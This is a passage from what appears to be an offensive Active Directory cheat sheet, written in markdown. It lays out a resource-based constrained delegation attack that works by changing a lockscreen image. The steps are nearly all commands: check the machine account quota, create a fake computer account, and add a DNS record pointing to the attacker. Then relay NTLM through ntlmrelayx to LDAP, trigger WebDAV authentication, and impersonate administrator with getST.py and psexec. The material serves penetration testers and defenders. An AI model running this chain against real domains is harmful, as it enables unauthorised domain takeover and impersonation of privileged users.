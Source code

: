 ````
  - An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
  - On the network, machines with WebClient running (some OS version had this service running by default or use the webclient starting trick from DTMSecurity). OneDrive, SharePoint and NextCloud also activate this on clients.
  - A DNS record pointing to the attacker’s machine (By default authenticated users can create records)
- https://research.nccgroup.com/2019/08/20/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation/

#### Check who can add computers to the domain
```
(Get-DomainPolicy -Policy DC).PrivilegeRights.SeMachineAccountPrivilege.Trim("*") | Get-DomainObject | Select-Object name

Get-DomainObject | Where-Object ms-ds-machineaccountquota

cme ldap <DC IP> -d <DOMAIN> -u <USER> -p <PASS> -M maq
```

#### Create a new computer object
- https://github.com/Kevin-Robertson/Powermad
- https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py
```
import-module powermad
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

python3 addcomputer.py -computer-name FAKE01 -computer-pass '123456' <DOMAIN>/<USER>:<PASS> -dc-ip <DC IP>
```

#### Create a DNS record pointing to the attacker's machine IP
- https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py
- https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1
```
dnstool.py -u <DOMAIN>\<USER> -a add -r webdav.<DOMAIN> -d <ATTACKER IP> <DC IP>

$creds = get-credential
Invoke-DNSUpdate -DNSType A -DNSName webdav.<DOMAIN> -DNSData <IP ATTACKING MACHINE> -Credential $creds -Realm <DOMAIN>
```
- Didn't test dnstool for this attack

#### Serve image with impacket
```
sudo python3 ntlmrelayx.py -t ldap://<DC FQDN> --delegate-access --escalate-user FAKE01$ --serve-image ./image.jpg
```

#### Change lockscreen image
- https://github.com/nccgroup/Change-Lockscreen
```
change-lockscreen -webdav \\webdav@80\
```

#### Impersonate any user
```
getST.py <DOMAIN>/<MACHINE ACCOUNT>@<TARGET FQDN> -spn cifs/<TARGET FQDN> -impersonate administrator -dc-ip <DC IP>
Export KRB5CCNAME=administrator.ccache
Psexec.py -k -no-pass <TARGET FQDN>
```

## Relaying attacks
````
